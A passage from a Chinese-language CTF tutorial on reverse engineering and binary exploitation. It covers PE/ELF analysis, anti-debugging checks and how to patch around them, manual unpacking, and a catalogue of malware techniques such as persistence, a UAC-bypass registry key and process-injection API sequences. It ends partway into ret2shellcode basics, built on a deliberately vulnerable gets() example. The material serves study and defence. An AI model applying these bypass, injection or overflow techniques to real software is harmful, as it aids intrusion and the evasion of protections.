| **基址+偏移**  | `mov eax, [rbp-8]`      | rbp-8 作为地址         | `8B 45 F8`          |
| **比例变址**   | `mov eax, [rbx+rcx*4]`  | 数组访问               | `8B 04 8B`          |
| **RIP 相对**   | `mov eax, [rip+0x1234]` | 当前指令地址 + 偏移    | `8B 05 34 12 00 00` |

**5.2.3 大小端序**

**端序 = 多字节数据在内存中的存储顺序**

| 端序     | 存储方式         | 例子（0x12345678）                    |
| :------- | :--------------- | :------------------------------------ |
| **小端** | 低位字节在低地址 | `78 56 34 12`（x86/x64）              |
| **大端** | 高位字节在低地址 | `12 34 56 78`（网络协议、某些嵌入式） |

```c
int x = 0x12345678;
// 内存地址：0x1000 0x1001 0x1002 0x1003
// 小端：78 56 34 12
// 大端：12 34 56 78
```

**在 IDA / x64dbg 中看到的数值已经是按 CPU 端序显示**，但在手动修改机器码时、分析网络数据包时、分析二进制文件格式时需要对数据进行小端序的转换。

**5.2.4 地址偏移**

**绝对地址：**固定内存地址（如 `0x401000`），一般出现在PE 加载到固定基址（无 ASLR）。

**相对偏移：**相对于当前指令的差值，一般出现在动态链接、PIC、跳转指令。

1\. 跳转指令中的偏移

```assembly
; 跳转指令存储的是偏移，不是绝对地址
jmp 0x401000
; 机器码：E9 xx xx xx xx
; xx xx xx xx = 目标地址 - (当前地址 + 5)

; 示例：
; 当前指令地址：0x401000
; jmp 0x401020 的机器码 = E9 1B 00 00 00（因为 0x20 - 0x5 = 0x1B）
```

2\. RIP 相对寻址（x64 常见）

```assembly
; 访问全局变量
mov eax, [rip+0x1234]
; 实际地址 = 当前指令地址 + 0x1234 + 指令长度
```

3\. 栈偏移（局部变量和参数）

```assembly
; 访问局部变量
mov [rbp-8], eax   ; 局部变量（距 rbp -8）
mov eax, [rbp+16]  ; 函数参数（距 rbp +16）

; 在 IDA 中会显示为：
mov [rbp+var_8], eax
mov eax, [rbp+arg_0]
```

**5.2.5 动态链接**

| 类型         | 特点               | 体积 | 逆向难度         |
| :----------- | :----------------- | :--- | :--------------- |
| **静态链接** | 所有代码打包进 EXE | 大   | 容易（代码都在） |
| **动态链接** | 依赖外部 DLL/.so   | 小   | 需分析导入表     |

动态链接的核心概念

| 概念           | 缩写         | 作用                     |
| :------------- | :----------- | :----------------------- |
| **导入表**     | Import Table | 记录程序用了哪些外部函数 |
| **导入地址表** | IAT          | 存放外部函数真实地址     |
| **全局偏移表** | GOT          | Linux 版 IAT             |
| **过程链接表** | PLT          | 延迟绑定用               |

### 5.3 PE/ELF逆向要点

**5.3.1 PE 文件5.3.1**



1\. 第一步：查看导入表

导入表告诉你程序调用了哪些 Windows API，快速判断程序行为。

**IDA 中**：Imports 窗口（快捷键 `Ctrl+Shift+I`）

2\. 第二步：找到入口点

IDA 打开后自动跳转到 `start` (程序入口) ，然后找到 `main` (程序主函数) 。

3\. 第三步：识别关键节

| 节名                    | 内容     | 逆向重点                        |
| :---------------------- | :------- | :------------------------------ |
| `.text`(IDA View)       | 代码     | **主要分析区域**                |
| `.rdata`(`Shift + F12`) | 只读数据 | 找字符串（flag、提示信息）      |
| `.data`                 | 可写数据 | 全局变量（可能存加密后的 flag） |
| `.idata`(Imports)       | 导入表   | 看用了哪些 API                  |
| `.rsrc`                 | 资源     | 图标、版本信息（偶尔藏数据）    |
| `.reloc`                | 重定位   | ASLR 用，一般不看               |

4\. 常见坑

| 坑           | 表现                             | 解决方法                   |
| :----------- | :------------------------------- | :------------------------- |
| **ASLR**     | 每次加载地址不同                 | IDA 中 Rebase program      |
| **重定位**   | 代码中有绝对地址                 | 分析时用 RVA，不用绝对地址 |
| **动态加载** | `LoadLibrary` + `GetProcAddress` | 需要动态调试看加载了什么   |
| **TLS 回调** | 代码在入口点之前执行             | IDA 中查看 TLS 目录        |

**5.3.2 ELF 文件**



1\. 第一步：查看入口点

打开IDA后自动跳转到 `_start`，然后找到 `main`。

2\. 第二步：查看动态链接信息

```bash
# 查看依赖的共享库
ldd program

# 查看导入函数
readelf -r program | grep "R_X86_64_JUMP_SLO"

# 或使用 objdump
objdump -T program | grep "UND"
```

3\. 第三步：识别关键节

| 节名          | 内容             | 逆向重点               |
| :------------ | :--------------- | :--------------------- |
| `.text`       | 代码             | **主要分析区域**       |
| `.rodata`     | 只读数据         | 找字符串（flag、提示） |
| `.data`       | 已初始化全局变量 | 可能存加密数据         |
| `.bss`        | 未初始化全局变量 | 运行时分配             |
| `.plt`        | 过程链接表       | 调用外部函数           |
| `.got.plt`    | 全局偏移表       | 外部函数地址           |
| `.init_array` | 构造函数         | 入口点前执行           |

4\. 常见坑

| 坑                        | 表现                 | 解决方法                                  |
| :------------------------ | :------------------- | :---------------------------------------- |
| **PIE（位置无关可执行）** | 每次加载地址不同     | IDA 中勾选 "Rebase" 或手动设置 Image Base |
| **Strip**                 | 无符号信息           | 函数名变成 `sub_xxxx`，需手动分析         |
| **静态链接**              | 文件巨大，包含 libc  | 识别 libc 函数特征码                      |
| **UPX 压缩**              | 文件很小，入口点异常 | `upx -d` 脱壳                             |

### 5.4 调试原理

**调试器 = 让程序按你的指令执行、随时暂停、查看内存和寄存器的工具。**

- 在关键位置下断点，看程序停在哪。
- 单步执行，跟踪程序逻辑。
- 修改寄存器/内存，绕过程序检查。
- 查看函数参数和返回值。

工作原理：

1\. 让程序停下来

软件断点：把指令的第一个字节替换为 `0xCC`（`int 3`）。[**最常用的方式**]

硬件断点：利用 CPU 的调试寄存器（DR0-DR3）。[反调试时会检测，但不易被检测]

内存断点：设置内存页属性，访问时触发异常。 [监控数据被谁修改]

2\. 软件断点原理

```text
原指令：              0x401000:  55          (push rbp)
下断点后：            0x401000:  CC          (int 3)
                    0x401001:  48 89 E5    (mov rbp, rsp)

程序执行到 0x401000：
1. CPU 执行 CC（int 3）→ 触发断点异常
2. 操作系统交给调试器处理
3. 调试器把 CC 换回 55
4. 等待用户命令（继续/单步）

你点击“继续”后：
5. 调试器恢复原指令，让程序继续
```

**软件断点容易被检测**

- 程序可以计算代码段的校验和，发现 `0xCC` 异常
- 程序可以安装自己的 `int 3` 处理函数

3\. 单步执行

**CPU 的标志寄存器中有个 TF（Trap Flag）位**：

- 设置 TF = 1 → CPU 执行一条指令后自动触发 `int 1`（单步异常）
- 调试器捕获异常，更新界面，等待下一步

**Windows 常见反调试**

| 反调试方法                   | 原理                    | 绕过                   |
| :--------------------------- | :---------------------- | :--------------------- |
| `IsDebuggerPresent()`        | 检查 PEB.BeingDebugged  | patch 返回值 / 改 PEB  |
| `NtQueryInformationProcess`  | 查询进程信息            | patch / hook           |
| `CheckRemoteDebuggerPresent` | 检查是否有远程调试器    | patch / hook           |
| `OutputDebugString`          | 利用异常检测            | patch                  |
| `rdtsc` 时间差               | 计算指令执行时间        | patch / 硬件断点       |
| `int 3` 校验                 | 检查代码段是否有 `0xCC` | 用硬件断点替代软件断点 |

**x64dbg 绕过**：

- 自带 `ScyllaHide` 插件 → 勾选常用反调试选项
- 手动：找到 `IsDebuggerPresent` 调用，把 `eax` 改 0

**Linux 常见反调试**

| 反调试方法                           | 原理                 | 绕过               |
| :----------------------------------- | :------------------- | :----------------- |
| `ptrace(PTRACE_TRACEME)`             | 检测是否被调试       | patch / 环境变量   |
| `/proc/self/status` 中的 `TracerPid` | 检查是否有调试器附加 | patch / 改文件内容 |

**gdb 绕过**：

```bash
# 绕过 ptrace
echo 0 | sudo tee /proc/sys/kernel/yama/ptrace_scope

# 或者用 gdb 插件（pwndbg/peda）自动处理
```

流程

```text
1. 打开调试器，载入程序
   ↓
2. 找到关键代码
   - 从字符串参考找（"Wrong"、"Correct"）
   - 从导入函数找（strcmp、MessageBox）
   ↓
3. 下断点
   - 在比较函数上下断点（如 call strcmp）
   - 在关键跳转上下断点（如 jz correct）
   ↓
4. 运行程序（F9）
   ↓
5. 输入测试数据
   ↓
6. 触发断点，查看寄存器
   - strcmp 返回值在 eax/rax（0=相等）
   - 参数在 rcx/rdx（x64）或栈上（x86）
   ↓
7. 单步跟踪（F8/F7）
   ↓
8. 找到 flag 或关键算法
```

**GDB命令**

| 操作                     | 命令               |
| :----------------------- | :----------------- |
| 载入程序                 | `gdb ./program`    |
| 设置参数                 | `set args "input"` |
| 运行                     | `r`                |
| 下断点（地址）           | `b *0x401000`      |
| 下断点（函数）           | `b main`           |
| 单步步入                 | `si`               |
| 单步步过                 | `ni`               |
| 继续                     | `c`                |
| 查看寄存器               | `info registers`   |
| 查看内存（10 个 4 字节） | `x/10x 0x401000`   |
| 查看字符串               | `x/s 0x401000`     |
| 反汇编                   | `disas 0x401000`   |

**推荐插件**：`pwndbg` 或 `peda`（自动美化、增强命令）

### 5.5 反调试与反反调试

**反调试**：程序检测自己是否被调试，如果是则退出/改变行为。

**反反调试**：绕过反调试，让程序正常被调试。

**5.5.1 Windows 常见反调试与绕过**

1\. `IsDebuggerPresent()`（最基础）

```c
if (IsDebuggerPresent()) {
    exit(0);
}
```

**原理**：检查 PEB（Process Environment Block）中的 `BeingDebugged` 标志。

**绕过**：

```assembly
; 方法1：patch 返回值
call IsDebuggerPresent
test eax, eax
jnz  detected
; 改成：
xor eax, eax      ; eax = 0
test eax, eax
jnz  detected     ; 永远不会跳

; 方法2：修改 PEB 标志
; x64dbg：执行到 IsDebuggerPresent 后，把 eax 改 0
```

**x64dbg 插件**：ScyllaHide 自动处理。

2\. `NtQueryInformationProcess`（更隐蔽）

```c
// 查询 ProcessDebugPort / ProcessDebugFlags / ProcessDebugObject
NtQueryInformationProcess(GetCurrentProcess(), 
                          ProcessDebugPort, 
                          &port, sizeof(port), NULL);
if (port != 0) exit(0);
```

**绕过**：

- hook `NtQueryInformationProcess`，修改返回值
- 或用 x64dbg 在调用后改寄存器

3\. `CheckRemoteDebuggerPresent`

```c
CheckRemoteDebuggerPresent(GetCurrentProcess(), &debugged);
if (debugged) exit(0);
```

**绕过**：同 `IsDebuggerPresent`。

4\. `OutputDebugString` 异常检测

```c
// 正常：OutputDebugString("test") 返回成功
// 被调试：可能触发异常
__try {
    OutputDebugString("test");
}
__except(EXCEPTION_EXECUTE_HANDLER) {
    exit(0);  // 被调试，进入异常
}
```

**绕过**：x64dbg 设置 `Break on DLL load` → 不处理该异常。

5\. `rdtsc` 时间差检测

```c
uint64_t t1 = __rdtsc();
// 执行几条指令
uint64_t t2 = __rdtsc();
if (t2 - t1 > 1000) {  // 被调试时执行慢
    exit(0);
}
```

**原理**：调试器单步执行会消耗更多 CPU 周期。

**绕过**：

- 用硬件断点替代软件断点（减少时间差）
- patch：把比较条件改掉（`jg` → `jmp` 或 `nop`）

6\. `int 3` 校验（软件断点检测）

```c
// 检查代码段是否有 0xCC（int 3）
BOOL checkInt3() {
    BYTE* code = (BYTE*)&checkInt3;
    for (int i = 0; i < 100; i++) {
        if (code[i] == 0xCC) return TRUE;  // 被下断点
    }
    return FALSE;
}
```

**绕过**：

- 用**硬件断点**（不下 `0xCC`）
- patch：把 `cmp al, 0xCC` 改成 `cmp al, 0x00`

7\. 窗口标题/类名检测

```c
FindWindowA("OLLYDBG", NULL);
FindWindowA("x64dbg", NULL);
FindWindowA("WinDbgFrameClass", NULL);
```

**绕过**：

- patch 函数调用（直接改返回值为 0）
- 或把 `jnz` 改成 `jmp`

8\. `NtSetInformationThread` 隐藏线程

```c
// 隐藏线程，防止调试事件
NtSetInformationThread(GetCurrentThread(), 
                       ThreadHideFromDebugger, 
                       NULL, 0);
```

**绕过**：

- 在调用前下断点，跳过该调用（`jmp` 或 `ret`）
- 或用内核调试器

**5.5.2 Linux 常见反调试与绕过**

1\. `ptrace` 检测（最基础）

```c
if (ptrace(PTRACE_TRACEME, 0, 1, 0) == -1) {
    exit(0);  // 已被调试
}
```

**原理**：一个进程只能被一个调试器 `ptrace`，自己 `ptrace` 自己如果失败说明已被调试。

**绕过**：

```bash
# 方法1：gdb 设置
set follow-fork-mode child

# 方法2：patch
# 把 ptrace 调用改成返回 0
```

2\.`/proc/self/status` 检查

```c
FILE* f = fopen("/proc/self/status", "r");
while (fgets(line, 256, f)) {
    if (strncmp(line, "TracerPid:", 10) == 0) {
        if (atoi(line + 10) != 0) exit(0);  // 被调试
    }
}
```

**绕过**：

- 在 `fopen` 后改返回值
- 或 patch 比较逻辑

```bash
# 调试时手动查看
cat /proc/1234/status | grep TracerPid
```

3\. `getppid` 检测

```c
// 父进程不是 init/systemd 说明被调试器启动
if (getppid() != 1) exit(0);
```

**绕过**：patch 或 `set follow-fork-mode child`

4\. 信号检测

```c
// 调试器会拦截某些信号
signal(SIGTRAP, handler);
raise(SIGTRAP);
// 如果 handler 没被调用，说明被调试
```

**绕过**：gdb 设置 `handle SIGTRAP nostop noprint`

**5.5.3 通用技巧（最实用）**

1\. 静态 patch（最暴力、最有效）

找到反调试代码，直接修改机器码：

| 原指令                   | 改成                  | 效果     |
| :----------------------- | :-------------------- | :------- |
| `jnz` (75 xx)            | `jmp` (EB xx)         | 强制跳转 |
| `jz` (74 xx)             | `nop nop` (90 90)     | 取消跳转 |
| `call IsDebuggerPresent` | `xor eax,eax` (31 C0) | 返回 0   |
| `call ptrace`            | `xor eax,eax` (31 C0) | 返回 0   |

**IDA 中 patch**：

1. `Edit → Patch program → Change byte`
2. 修改后 `Edit → Patch program → Apply patches to input file`

**x64dbg 中 patch**：

1. 选中指令，`Ctrl+E` 编辑机器码
2. 右键 → `Copy to executable` → `Save file`

2\. 硬件断点绕过软件断点检测

当程序检测 `0xCC` 时：

- 用硬件断点（x64dbg：双击地址 → `Hardware, on execute`）
- 硬件断点不下 `0xCC`，不会被检测到

3\. 装调试器插件（不推荐新手学习时使用）

| 调试器 | 插件        | 功能                 |
| :----- | :---------- | :------------------- |
| x64dbg | ScyllaHide  | 自动绕过大部分反调试 |
| x64dbg | TitanHide   | 更底层隐藏           |
| gdb    | pwndbg/peda | 自动处理某些反调试   |

4\. 修改 `/proc/self/status`（Linux）

可以用 `gdb` 脚本 hook `open` 调用，伪造文件内容。

### 5.6 加壳与脱壳

**加壳 = 把程序加密/压缩，外面包一层壳代码，运行时先解密再执行原程序。**

| 目的         | 说明                         |
| :----------- | :--------------------------- |
| **缩小体积** | 压缩代码，减少文件大小       |
| **防逆向**   | 隐藏真实代码，静态分析看不到 |
| **防修改**   | 校验完整性，防止 patch       |
| **授权验证** | 商业软件的保护壳             |

```text
加壳过程：
原始程序（.exe / .elf）
    ↓ 压缩/加密
压缩/加密后的代码
    ↓ 加上壳代码
加壳后的程序：
┌─────────────────┐
│   壳代码         ← 入口点在这里
│ (解压/解密代码)
├─────────────────┤
│   压缩/加密数据   ← 原程序被藏在这里
└─────────────────┘

运行过程：
1. 执行壳代码
2. 壳代码解密/解压原始程序到内存
3. 壳代码跳转到原始入口点（OEP）
4. 原始程序开始执行
```

**OEP**：Original Entry Point，原始程序入口点。脱壳后需要修复到 OEP。

**壳代码**：先于原程序执行的代码。单步跟踪的就是它。

**IAT**：导入地址表（Windows）。壳可能破坏/加密 IAT，需修复

常见壳

| 壳名称        | 类型     | 特征                   |
| :------------ | :------- | :--------------------- |
| **UPX**       | 压缩壳   | 最简单，有专用脱壳工具 |
| **ASPack**    | 压缩壳   | 常见于旧程序           |
| **UPack**     | 压缩壳   | 极致的压缩             |
| **Themida**   | 保护壳   | 强反调试、虚拟化       |
| **VMProtect** | 虚拟化壳 | 代码虚拟化，极难       |
| **Enigma**    | 保护壳   | 授权验证常见           |
| **Obsidium**  | 保护壳   | 中等难度               |

**查壳工具**：Detect It Easy (DIE)

**脱壳方法**

1\. 专用脱壳工具（最简单）

| 壳         | 脱壳工具             | 命令                 |
| :--------- | :------------------- | :------------------- |
| **UPX**    | upx.exe              | `upx -d program.exe` |
| **ASPack** | AspackDie / UnASPack | GUI 工具             |
| **UPack**  | UnUPack              | 命令行               |

**注意**：有些 UPX 壳被修改过（伪装 UPX），工具脱壳会失败，需要手动脱。

**2\. 手动脱壳（通用方法）**

当专用工具失败时，用手动方法。

**方法一：ESP 定律（x86 Windows 最常用）**

```text
原理：壳代码执行时，会保存原始栈顶（ESP），
     壳解压完成后，恢复 ESP 并跳转到 OEP。

步骤（x64dbg / OllyDbg）：
1. 载入程序，单步到第一条指令
2. 观察 ESP 寄存器的值（如 0x0019FF74）
3. 在 ESP 的值上下**硬件断点**（右键 → 断点 → 硬件访问 → Word）
4. 按 F9 运行
5. 断点触发 → 此时已经到 OEP 附近
6. 单步跟踪到真正的 OEP（通常有 push ebp / mov ebp, esp）
7. 用 Scylla 或 x64dbg 的 dump 功能脱壳
```

**方法二：单步跟踪法（最笨但有效）**

```text
1. 载入程序
2. F8 单步跟踪
3. 遇到 call / jmp / loop 等跳转指令，注意观察
4. 当遇到**跨段跳转**（如 jmp 0x401000）时，很可能就是跳 OEP
5. 跟到 OEP 后 dump
```

**方法三：内存断点法**

```text
1. 在 .text 节（代码节）下内存执行断点
2. 壳解压完会执行原代码 → 触发断点
3. 触发时就是 OEP
```

3\. OEP 特征（识别方法）

**Windows (x86/x64)**：

```assembly
; 常见 OEP 开头
push ebp          ; 55
mov ebp, esp      ; 8B EC
sub esp, xxx      ; 83 EC XX

; 或
push xxx          ; 6A XX
call 0x401000     ; E8 xx xx xx xx
```

**Linux (ELF)**：

```assembly
; _start 的典型代码
xor ebp, ebp
mov r9, rdx
pop rsi
...
lea rdi, [rip+main]  ; 能看到 main 地址
```

4\. 脱壳后修复 IAT

**问题**：有些壳会加密/破坏导入表（IAT），脱壳后程序无法运行。

**解决**：用 **Scylla**（x64dbg 自带或单独工具）

```text
1. 在 OEP 处暂停
2. 打开 Scylla
3. 点击 "IAT Autosearch" → 自动搜索 IAT
4. 点击 "Get Imports" → 获取导入函数
5. 点击 "Dump" → 脱壳
6. 点击 "Fix Dump" → 修复导入表
```

### 5.7 恶意软件常用技术

**5.7.1 恶意软件进入你电脑的常见途径**

| 途径             | 说明             | 典型例子                   |
| :--------------- | :--------------- | :------------------------- |
| **下载破解软件** | 盗版网站、注册机 | 下载“PS破解版”，实际是病毒 |
| **钓鱼邮件**     | 伪装成官方邮件   | “您的订单有问题，点击查看” |
| **恶意广告**     | 伪装成下载按钮   | 下载站的大字“立即下载”     |
| **U盘/移动硬盘** | 插入被感染的U盘  | 学校打印店、公共电脑       |
| **伪装安装包**   | 名字像正常软件   | `setup.exe` 其实是病毒     |
| **漏洞攻击**     | 不更新系统/软件  | 永恒之蓝（WannaCry）       |

**5.7.2 恶意软件的目标**

| 目标       | 说明                 |
| :--------- | :------------------- |
| **持久化** | 重启后还能运行       |
| **隐藏**   | 不被用户/杀软发现    |
| **提权**   | 获得更高权限         |
| **窃取**   | 文件、密码、键盘输入 |
| **传播**   | 感染其他机器         |
| **破坏**   | 删除文件、加密数据   |

1\. 持久化（Persistence）

**目的**：确保恶意软件在系统重启后继续运行。

Windows 持久化常见位置

| 位置              | 查看方式        | 逆向特征                                                     |
| :---------------- | :-------------- | :----------------------------------------------------------- |
| **注册表 Run 键** | `regedit` 查看  | 导入表有 `RegSetValueEx`                                     |
| **启动文件夹**    | `shell:startup` | 写入 `%AppData%\Microsoft\Windows\Start Menu\Programs\Startup` |
| **计划任务**      | `taskschd.msc`  | 导入表有 `ITaskScheduler`                                    |
| **服务**          | `services.msc`  | `CreateService` / `OpenSCManager`                            |
| **WMI 事件**      | `wbemtest`      | `IWbemServices`                                              |
| **DLL 劫持**      | 替换系统 DLL    | 写入 `System32                                               |

Linux 持久化常见位置

| 位置             | 文件/命令                | 逆向特征             |
| :--------------- | :----------------------- | :------------------- |
| **crontab**      | `/etc/crontab`           | 写入 `/etc/crontab`  |
| **systemd 服务** | `/etc/systemd/system/`   | 写入 `.service` 文件 |
| **开机脚本**     | `/etc/rc.local`          | 追加命令             |
| **SSH 密钥**     | `~/.ssh/authorized_keys` | 写入公钥             |
| **bashrc**       | `~/.bashrc`              | 追加命令             |

2\. 隐藏技术（Stealth）

用户态隐藏

| 技术         | 做法                                          | 逆向特征        |
| :----------- | :-------------------------------------------- | :-------------- |
| **API Hook** | 修改 IAT / inline hook                        | 代码段被修改    |
| **Rootkit**  | 内核驱动 hook 系统调用                        | `.sys` 驱动文件 |
| **文件隐藏** | 替换 `FindFirstFile` / `NtQueryDirectoryFile` | Hook 这些 API   |
| **进程隐藏** | 从 `PsActiveProcessLinks` 摘链（内核）        | 内核驱动        |

反分析技术

| 技术           | 做法                                             | 逆向中看到             |
| :------------- | :----------------------------------------------- | :--------------------- |
| **加壳**       | UPX、VMProtect                                   | 查壳工具               |
| **反调试**     | `IsDebuggerPresent`、`NtQueryInformationProcess` | 导入表这些 API         |
| **代码混淆**   | 死代码插入、控制流平坦化                         | IDA 中看到复杂的跳转   |
| **字符串加密** | XOR 加密字符串，运行时解密                       | 初始化函数中大量 `xor` |

3\. 提权（Privilege Escalation）

**目的**：从普通用户提升到 SYSTEM（Windows）或 root（Linux）。

Windows 提权常见方式

| 方式           | 原理                                   | 逆向特征                                                     |
| :------------- | :------------------------------------- | :----------------------------------------------------------- |
| **UAC 绕过**   | 利用自动提权进程（如 `fodhelper.exe`） | 写入注册表 `HKCU\Software\Classes\ms-settings\shell\open\command` |
| **服务漏洞**   | 利用可写的服务配置                     | `ChangeServiceConfig`                                        |
| **Token 窃取** | 窃取 SYSTEM 进程的 token               | `OpenProcessToken` + `DuplicateTokenEx`                      |
| **漏洞利用**   | CVE 内核漏洞                           | 没有通用特征                                                 |

Linux 提权常见方式

| 方式          | 原理                 | 逆向特征                     |
| :------------ | :------------------- | :--------------------------- |
| **SUID 提权** | 执行 SUID 程序       | 写入可执行文件 + `chmod u+s` |
| **sudo 滥用** | 利用 `sudo` 配置     | 修改 `/etc/sudoers`          |
| **Cron 任务** | 写入高权限 cron 任务 | 写入 `/etc/crontab`          |

4\. C2 通信（Command & Control）

**目的**：与攻击者服务器通信，接收命令、回传数据。

常见 C2 协议

| 协议           | 特征                           | 逆向看到                       |
| :------------- | :----------------------------- | :----------------------------- |
| **HTTP/HTTPS** | `WinHttpOpen` / `InternetOpen` | 导入表有这些 API               |
| **DNS**        | 通过 DNS 隧道传输数据          | `DnsQuery` / `socket` (UDP 53) |
| **TCP 自定义** | `socket` + `connect`           | 硬编码 IP 和端口               |

5\. 逆向识别 C2

1. 查看导入表：`WinHttp`、`Internet`、`socket`、`send`、`recv`。
2. 查看字符串：IP 地址、域名、URL 路径。
3. 动态调试：观察连接行为。

6\. 进程注入（Process Injection）

**目的**：把恶意代码塞进其他进程，隐藏自身。

Windows 常见注入方式

| 方式           | API 调用                                                     | 逆向特征                   |
| :------------- | :----------------------------------------------------------- | :------------------------- |
| **DLL 注入**   | `VirtualAllocEx` + `WriteProcessMemory` + `CreateRemoteThread` | 导入表有这些 API           |
| **进程镂空**   | `CreateProcess`（挂起）+ `ZwUnmapViewOfSection` + `VirtualAllocEx` + `SetThreadContext` | 创建挂起进程 + 写入 + 恢复 |
| **反射式注入** | 不调用 `LoadLibrary`，自己解析 PE                            | 导入表没有 `LoadLibrary`   |
| **APC 注入**   | `QueueUserAPC`                                               | 异步过程调用               |
| **线程劫持**   | `SuspendThread` + `GetThreadContext` + `SetThreadContext`    | 修改其他线程的 RIP         |

Linux 注入方式

| 方式            | 原理                           | 逆向特征                  |
| :-------------- | :----------------------------- | :------------------------ |
| **LD_PRELOAD**  | 预加载恶意 `.so`               | 写入 `/etc/ld.so.preload` |
| **ptrace 注入** | `ptrace` + 写入内存 + 设置 RIP | `ptrace` 调用             |

**5.7.3 观察与处理**

| 检查方法       | 正常情况             | 异常情况          |
| :------------- | :------------------- | :---------------- |
| **任务管理器** | CPU 0%-10%（空闲时） | CPU 持续 50%-100% |
| **网络流量**   | 无下载时流量接近 0   | 持续有上传/下载   |
| **启动项**     | 只有自己装的软件     | 有不认识的启动项  |
| **进程列表**   | 都是认识的进程       | 有不认识的进程名  |
| **注册表 Run** | 只有自己装的         | 有可疑条目        |

**中毒处理：**

**第一步：关WiFi**，防止电脑数据继续外传。

**第二步：全盘杀毒**，Windows 安全中心 → 病毒和威胁防护 → 扫描选项 → 完全扫描（或者第三方杀毒例如火绒）。

**第三步：根据情况处理**

| 情况                   | 处理                                                         |
| :--------------------- | :----------------------------------------------------------- |
| 杀毒软件能清掉         | 清掉后重启，再扫一遍                                         |
| 清不掉，但能正常用     | 备份文件，重装系统*(360急救箱是个好东西)*                    |
| 勒索软件（文件被加密） | 先不删，查有没有解密工具（[nomoreransom.org](https://nomoreransom.org/)） |
| 电脑完全失控           | 直接重装系统                                                 |

**第四步：处理成功后**，改所有密码，检查有没有异常登录记录。

------

## 第六部分：PWN需要的底层基础

- **逆向**：你分析程序“本来在做什么”，目标是理解逻辑（如找到算法、flag验证）
- **PWN**：你分析程序“哪里有漏洞”，目标是利用漏洞控制程序（如覆盖返回地址）

### 6.1 核心工具

1\. 虚拟机运行软件：**VMware Workstation Pro**

2\. 基于Ubuntu系统的PWN专属环境。

- 高集成度虚拟机：

  这是最省心的方式，安全研究员 `giantbranch` 分享过一个配置好的 **CTF PWN 专用虚拟机**，里面已经把下面提到的所有工具都装好了：

  - **系统**：Ubuntu 16.04 (桌面版)
  - **核心配置**：
    - **运行环境**：支持 32 位程序运行。
    - **调试器**：`gdb` 已配置好 `pwndbg` 和 `peda` 插件。
    - **利用库**：`pwntools`、`one_gadget`、`libc-database`。
  - **获取方式**：可以通过网盘下载（链接: https://pan.baidu.com/s/1Ia8NPcXy414QOaiH14T3sQ 提取码: kypa）

- 本地手动安装：
  - 基础编译工具、32位运行库、Python3环境、Git及OpenSSL开发库。
  - 核心调试器 GDB 的插件：**pwndbg ** 和 **peda**
  - Python 漏洞利用库：**pwntools**
  - 辅助分析工具：**checksec**、**one_gadget**、**ROPgadget**

### 6.2 栈漏洞基础

展示军火：ret2shellcode、ret2libc、ROP、栈迁移、tcache、fastbin dup、UAF、bin 结构、泄露、任意地址写、IO_FILE等。

#### ret2shellcode（栈可执行）

**返回地址覆盖与 ret2shellcode**是最基础的栈溢出漏洞

**返回地址覆盖**是栈溢出攻击中最核心、最经典的技术。简单说就是：**攻击者把程序原本要返回的地址，改成自己想让程序去执行的地址。**

之前聊过**栈**：程序运行时用的一块内存，遵循 **后进先出**。每次函数调用，都会在栈上分配一块区域叫**栈帧**，里面存着：函数参数、返回地址、保存的寄存器、局部变量。**返回地址**通常存在栈帧的固定位置，刚好在**局部变量的“上方”**。

**6.2.1.1 找到覆盖**

1\. 原理

**核心漏洞**：有些函数（如 C 语言的 `gets()`、`strcpy()`）**不检查数据长度**，你塞多少数据它就写多少，一直往栈上写。

```c
void vuln() {
    char buf[8];   // 只有 8 字节空间
    gets(buf);     // 危险！可以输入任意长的内容
}

int main() {
    vuln();
    return 0;  // vuln 执行完后应该返回到这里
}
```

栈布局（简化）：

```text
栈地址            内容
0x7fff0000      [buf[0-7]]    ← 局部变量，8 字节
0x7fff0008      [返回地址]     ← 本应是 main 里调用 vuln 的下一条指令地址
```

如果你输入 8 个字母 `A`，刚好填满 `buf`，没问题。
如果你输入 16 个 `A`：

```text
地址 0x7fff0000: AAAAAAAA  ← buf[0-7]
地址 0x7fff0008: AAAAAAAA  ← 返回地址被覆盖成了 0x41414141
```

当 `vuln()` 执行完，`ret` 指令会跳转到 **0x41414141**（`AAAA` 的十六进制），这个地址基本是无效的 → **程序崩溃（Segmentation Fault）**。

**覆盖返回地址，就是为了劫持程序的控制流。**

2\. 利用

**覆盖成恶意函数地址**

如果程序里有个隐藏函数 `shell()` 直接给你弹个 shell，攻击者就找到它的地址（比如 `0x08048456`），精心构造输入，让返回地址刚好被这个数值覆盖。函数返回后，直接执行 `shell()`。

**覆盖成 shellcode（可自运行机器码）地址**

如果程序里没有现成的恶意函数，攻击者就把自己写的机器码（shellcode）通过输入塞进栈里，然后把返回地址覆盖成**栈上 shellcode 的起始位置**。函数返回后，直接跳到攻击者注入的代码去执行——**这叫“代码注入”攻击**。

3\. 防御

**栈不可执行**

栈上的数据不能当作指令执行，shellcode 放栈上也没用。

**ASLR（地址空间布局随机化）**

每次程序启动，栈、堆、库的基址都随机化，攻击者猜不到 shellcode 或恶意函数的地址。

**栈 Cookie（Stack Canary）**

在返回地址前面放一个随机值（Canary），函数返回前检查是否被改过。被改了就立即崩溃，不给你劫持的机会。

**6.2.1.2 找到返回地址的位置**

**目标**：知道要输入多少个字节，才能覆盖到返回地址。

用调试器（gdb + pwndbg）或 **pattern 生成**：

```bash
# 生成 100 个特征字符
pattern create 100
# 假设输出：aaabaaacaaadaaaeaaaf...（略）
```

用这个字符串作为输入，程序崩溃后会显示 `EIP` 或 `RIP` 的值，比如 `0x62616164`（`daab` 的十六进制）。然后：

```bash
pattern offset 0x62616164
# 输出：offset 72
```

输入 72 个垃圾数据后，接下来的 4 字节（32位）就是返回地址的位置。

栈布局：

```text
低地址
[ buf[0..63] ]  (64 字节)
[ 其他栈数据 ]   (8 字节？取决于对齐)
[ 返回地址 ] ← 第 72 字节开始
高地址
```

或（更精确）：

```text
0xffffc1e0: buf[0..63]   ← 64 字节
0xffffc220: 未对齐填充    ← 8 字节（让地址对齐）
0xffffc228: saved ebp     ← 4 字节（旧栈基址）
